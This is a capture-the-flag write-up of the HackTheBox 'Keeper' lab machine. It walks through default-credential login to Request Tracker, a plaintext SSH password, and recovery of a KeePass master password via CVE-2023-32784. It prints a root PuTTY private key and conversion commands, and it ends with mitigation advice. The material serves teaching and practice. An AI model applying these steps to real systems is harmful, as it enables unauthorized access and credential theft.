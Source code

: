 ```yaml
---
title: "HackTheBox - Keeper"
author: Nasrallah
description: ""
date: 2024-02-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, keepass, putty, ssh, cve]
img_path: /assets/img/hackthebox/machines/keeper
image:
    path: keeper.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description**

[Keeper](https://www.hackthebox.com/machines/keeper) from [HackTheBox](https://www.hackthebox.com) is an easy box running a web application with default credentials where we find a password in one of the user's profile giving us a foothold. On the system we find keepass dump file where we are able to get a password from it because of a vulnerability, and with that we get an ssh key for root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.70.234 (10.129.70.234)
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is OpenSSH running on port 22 and Nginx http web server on port 80, and box is Ubuntu.

### Web

Let's navigate to the web page.

![1](1.png)

We find a link that goes to `tickets.keeper.htb`, let's add the two domains to `/etc/hosts` and go to `ticket` page.

![2](2.png)

The website is `Request Tracker` from `PracticalSolutions`.

Searching the internet for default credentials i found the following:

![3](3.png)

Let's login with `root:password`

![4](4.png)

We logged in successfully.

## **Foothold**

Let's explore this application.

![5](5.png)

On the `rt/Admin/Users/` page we find there is a user called `lnorgaard`. Let's click on the username.

![6](6.png)

On this page we found a password.

Let's try ssh to the target as `lnorgaard:Welcome2023!`

![7](7.png)

Great!

## **Privilege Escalation**

On the user's directory we find a zip file.

```terminal
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Let's transfer the file to our machine using `scp`

```bash
scp lnorgaard@keeper.htb:./RT30000.zip .
```

### Zip

After unzipping the file, we got two file `KeePassDumpFull.dmp` and `passcodes.kdbx`.

The `passcodes.kdbx` is a keepass file that's probably holding the root password.

The `KeePassDumpFull.dmp` is a dump file.

Searching for `keepass dump file` reveals the `CVE-2023-32784` where we're able to dump the master password from `keepass`'s memory.

We can find an exploit here [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey).

```bash
$ python poc.py -d /tmp/keeper/KeePassDumpFull.dmp  
2023-08-18 11:26:07,651 [.] [main] Opened /tmp/keeper/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

The exploit gave up multiple possible password that looks the same, let's copy one of those and search it on Google so that it would correct us thus giving the right password.

![8](8.png)

We got the correct word! `rødgrød med fløde`.

Let's access the keepass file.

```bash
$ pipx run kpsh passcodes.kdbx
passcodes.kdbx> unlock
Database password: *****************
passcodes.kdbx> show 'Network/keeper.htb (Ticketing Server)'
path: Network/keeper.htb (Ticketing Server)
username: root
password: F4><3K0nd!
notes[1]: PuTTY-User-Key-File-3: ssh-rsa
notes[2]: Encryption: none
notes[3]: Comment: rsa-key-20230519
notes[4]: Public-Lines: 6
notes[5]: AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
notes[6]: 8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
notes[7]: EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
notes[8]: Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
notes[9]: FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
notes[10]: LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
notes[11]: Private-Lines: 14
notes[12]: AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
notes[13]: oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
notes[14]: kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
notes[15]: f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
notes[16]: VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
notes[17]: UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
notes[18]: OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
notes[19]: in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
notes[20]: SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
notes[21]: 09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
notes[22]: xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
notes[23]: AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
notes[24]: AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
notes[25]: NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
notes[26]: Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

We found a putty private key that belongs to `root`.

Let's copy the notes to a file and clean it using the following command:

```bash
cut -d " " -f 2,3 priv.key | tee putty.key
```

With the help of `puttygen`, we can convert this key to an `id_rsa` that will allow us to connect as root.

```bash
puttygen putty.key -O private-openssh -o id_rsa
```

Now we connect as root using `id_rsa`

![9](9.png)

We got root!

## **Prevention and Mitigation**

### Default password

Most programs that require authentication comes with default credentials that are easy to guess so it is necessary to change the default password to a more long and complex one.

### Plain text password

Were were able to find a clear text password for a user on the web application. Password should not be laying around like that, and if it's necessary then the users must be forced to change the password after their first login.

### CVE-2023-32784

When using third party software it is necessary to keep up with it's updates, especially the security related ones.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
